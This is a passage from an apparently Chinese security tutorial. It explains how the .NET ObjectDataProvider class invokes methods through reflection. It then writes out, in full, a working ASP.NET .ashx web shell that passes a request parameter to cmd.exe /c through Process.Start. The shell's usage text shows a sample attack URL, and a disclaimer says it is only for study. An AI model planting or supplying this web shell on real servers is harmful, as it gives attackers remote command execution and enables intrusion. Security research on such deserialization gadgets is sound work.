 设置方法名
-----

set_MethodName 设置对象调用的方法, 如 objectDataProvider.MethodName = "Start";

```
public string MethodName
    {
      get => this._methodName;
      set
      {
        this._methodName = value;
        this.OnPropertyChanged(nameof (MethodName));
        if (this.IsRefreshDeferred)
          return;
        this.Refresh();
      }
    }

```

反射调用
----

接着依次进入 BeginQuery -> QueryWorker ->InvokeMethodOnInstance，BeginQuery 在 ObjectDataProvider 类里重写实现调用，InvokeMethodOnInstance 方法通过属性 this._objectType 反射出 MethodName 里设置的 MethodParameters 数组，此处是 objArray，至此 ObjectDataProvider 底层运行原理介绍完毕。  

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9ElLmApSX5lw47t9TzmVX7OXiafzUjyTwBuzACsciaPTUPEJcuXdt6asEAAwKnA2VLqXwKqMmECsnQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9ElLmApSX5lw47t9TzmVX7V8g7y7oA9NmVI1acNNYcrvqyhMV8iceXDIEAxBpric19ucWFQibH46ia5w/640?wx_fmt=png)

0x03 编写 WebShell
================

程序内部采用 Base64 编码和解码的解析方式运行，这样的好处在于对 URL 特殊字符串的处置，启动 Process 类调用 cmd.exe/c calc.exe 执行命令，核心代码如下

```
public static void CodeInject(string input)
    {
        string ExecCode = EncodeBase64("utf-8", input);
        ObjectDataProvider objectDataProvider = new ObjectDataProvider()
        {
            ObjectInstance = new System.Diagnostics.Process(),
        };
        objectDataProvider.MethodParameters.Add("cmd.exe");
        objectDataProvider.MethodParameters.Add("/c " + DecodeBase64("utf-8",ExecCode));
        objectDataProvider.MethodName = "Start";
    }
public void ProcessRequest(HttpContext context)
    {
        context.Response.ContentType = "text/plain";
        if (!string.IsNullOrEmpty(context.Request["input"]))
        {
            CodeInject(context.Request["input"]);
            context.Response.Write("Status: 执行完毕！");
        }
        else
        {
            context.Response.Write("1. example: http://www.xxxxxxx.com/ObjectDataProviderSpy.ashx?input=calc.exe\n\n");
            context.Response.Write("2. 程序调用cmd.exe/c calc.exe 执行命令，注意：本程序仅供实验学习 ObjectDataProvider类，请勿违法滥用！");
        }
    }

```
